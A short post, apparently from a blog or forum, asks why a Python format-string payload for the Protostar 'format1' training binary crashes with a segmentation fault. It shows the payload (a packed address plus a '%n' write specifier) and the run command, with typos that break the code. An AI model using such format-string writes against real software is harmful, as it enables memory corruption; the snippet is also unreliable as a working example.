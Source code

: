 ```yaml
---
layout: post
title: "Protostar format01 error"
tags: [protostar]
comments: true
---
```



I have the following exploit

```
/opt/protostar/bin/format1 (python ex.py)

```

python code
```
mport struct

payload = struct.pack("I", 0x08049638)
payload += " %132$08n"
print(payload)
~               
```

This should work but it's only returning Segmentation falt.

Any idea why?
